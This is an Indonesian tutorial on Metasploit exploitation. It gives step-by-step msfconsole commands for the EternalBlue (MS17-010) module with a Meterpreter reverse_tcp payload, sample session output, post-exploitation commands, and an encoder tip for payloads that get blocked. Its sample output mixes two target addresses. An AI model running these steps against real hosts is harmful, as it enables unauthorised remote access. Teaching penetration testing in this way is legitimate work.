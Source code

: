 # Menjalankan Eksploitasi dengan Metasploit Framework

## Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:

- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:

1. Pilih dan muat modul exploit
2. Tentukan target (RHOST, RPORT)
3. Pilih payload
4. Konfigurasi payload (LHOST, LPORT, dll)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### Langkah 1 - Buka MSFConsole

```
msfconsole
```

Tunggu sampai muncul prompt seperti ini:

```
msf6 >
```

### Langkah 2 - Cari Exploit yang Sesuai

```
search eternalblue
```

**Contoh hasil:**

```
exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 3 - Gunakan Exploit

```
use exploit/windows/smb/ms17_010_eternalblue
```

### Langkah 4 - Lihat Opsi Konfigurasi

```
show options
```

### Langkah 5 - Setting Target dan Payload

```
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
```

### Langkah 6 - Jalankan Exploit

```
exploit
```

Jika berhasil, kamu akan mendapatkan sesi Meterpreter.

### Contoh Output Berhasil:

```
[*] Sending stage (203846 bytes) to 192.168.1.10
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

meterpreter > 
```

Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

Melihat informasi sistem target:

```
sysinfo
```

Menampilkan User ID (UID):

```
getuid
```

Membuka command shell (cmd.exe) dari mesin korban:

```
shell
```

## Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting RHOST/LHOST |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:

1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.
